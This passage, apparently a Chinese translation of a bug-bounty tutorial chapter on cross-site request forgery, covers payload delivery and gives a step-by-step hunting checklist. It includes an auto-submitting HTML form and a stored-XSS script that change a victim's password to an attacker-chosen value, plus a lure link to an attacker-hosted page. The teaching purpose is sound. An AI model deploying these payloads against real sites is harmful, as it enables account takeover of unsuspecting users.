此后，攻击者可以自由地以任何受影响的受害者身份登录，使用新分配的密码`this_account_is_now_mine`。

尽管我遇到的大多数 CSRF 都是低严重性问题，但有时关键端点上的 CSRF 可能导致严重后果。

## 交付 CSRF 载荷

在漏洞悬赏报告中，你经常需要向公司展示攻击者可以可靠地交付 CSRF 载荷。攻击者有哪些选项可以做到这一点呢？

交付 CSRF 载荷的第一个也是最简单的方式是通过诱使用户访问一个外部恶意网站。例如，假设 *example.com* 有一个用户经常访问的论坛。在这种情况下，攻击者可以在论坛上发布类似这样的链接，鼓励用户访问他们的页面：

访问此页面，获取你在 *example.com* 订阅的折扣： *https://example.attacker.com*

而在 *example.attacker.com* 上，攻击者可以托管一个自动提交的表单来执行 CSRF：

```
<html> <form method="POST" action="https://email.example.com/set_password" id="csrf-form"> <input type="text" name="new_password" value="this_account_is_now_mine"> <input type='submit' value="Submit"> </form> <script>document.getElementById("csrf-form").submit();</script>
</html>
```

对于可以通过 GET 请求执行的 CSRF，攻击者通常可以将请求作为图片直接嵌入——例如，作为发布到论坛的图片。这样，任何查看该论坛页面的用户都会受到影响：

```

```

最后，攻击者可以通过利用存储型 XSS 向大量受众交付 CSRF 载荷。如果论坛评论字段存在此漏洞，攻击者可以在其中提交一个存储型 XSS 载荷，使任何论坛访问者执行攻击者的恶意脚本。在恶意脚本中，攻击者可以包含发送 CSRF 载荷的代码：

```
<script> document.body.innerHTML += " <form method="POST" action="https://email.example.com/set_password" id="csrf-form"> <input type="text" name="new_password" value="this_account_is_now_mine"> <input type='submit' value="Submit"> </form>"; document.getElementById("csrf-form").submit();
</script>
```

这段 JavaScript 代码将我们的利用表单添加到用户的当前页面，并自动提交该表单。

使用这些交付方式，你可以向公司展示攻击者如何现实地攻击多个用户，并演示你 CSRF 漏洞的最大影响。如果你有 Burp Suite Pro，或者使用 ZAP 代理，你也可以利用它们的 CSRF POC 生成功能。有关更多信息，请在工具的文档中查找 *CSRF POC generation*。你也可以保留你自己编写的 POC 脚本，并在每次测试新目标时将目标网站的 URL 插入脚本中。

## 找到你的第一个 CSRF！

掌握了有关 CSRF 漏洞、绕过 CSRF 保护和提升 CSRF 漏洞的知识后，你现在已经准备好寻找你的第一个 CSRF 漏洞！加入一个漏洞悬赏计划，并按照本章中涵盖的步骤找到你的第一个 CSRF：

1.  找出应用程序中的状态更改操作，并记录它们的位置和功能。

1.  检查这些功能是否有 CSRF 保护。如果你没有发现任何保护，你可能已经找到了一个漏洞！

1.  如果存在任何 CSRF 保护机制，尝试通过使用本章中提到的保护绕过技术来绕过保护。

1.  通过制作一个恶意的 HTML 页面并访问该页面，确认漏洞是否存在，看看操作是否已执行。

1.  思考将载荷交付给最终用户的策略。

1.  草拟你的第一个 CSRF 报告！
